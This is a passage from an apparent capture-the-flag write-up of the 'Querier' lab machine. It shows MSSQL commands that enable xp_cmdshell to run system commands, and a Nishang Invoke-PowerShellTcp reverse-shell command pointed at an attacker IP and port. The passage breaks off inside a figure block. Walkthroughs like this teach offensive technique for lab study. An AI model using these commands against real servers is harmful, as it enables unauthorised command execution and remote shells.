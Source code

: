 <div class="imgblock">

![user-mssql](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/user-mssql_iqxpns.webp)

<div class="title">

Figure 10. xp_cmdshell disabled

</div>

</div>

``` bash
> EXEC sp_configure 'show advanced options', 1;
> EXEC sp_configure reconfigure;
> EXEC sp_configure 'xp_cmdshell', 1;
> EXEC sp_configure reconfigure;
> EXEC master.dbo.xp_cmdshell 'whoami';
```

<div class="imgblock">

![mssql-commands](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331038/blog/querier-writeup/mssql-commands_q71qua.webp)

<div class="title">

Figure 11. xp_cmdshell enabled

</div>

</div>

Because we can execute commands, reading the user flag is now possible.

<div class="imgblock">

![flag-user](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/flag-user_nfielb.webp)

<div class="title">

Figure 12. User flag

</div>

</div>

## Getting Root

This method of executing commands may be an inconvenient way to escalate
privileges, so we will upload a shell to the server. To do this we will
use the script `Invoke-PowerShellTcp.ps1` of `Nishang` framework. Before
uploading the shell we add our IP address and some free port to make the
connection.

``` bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.1 -Port 30000
```

<div class="imgblock">
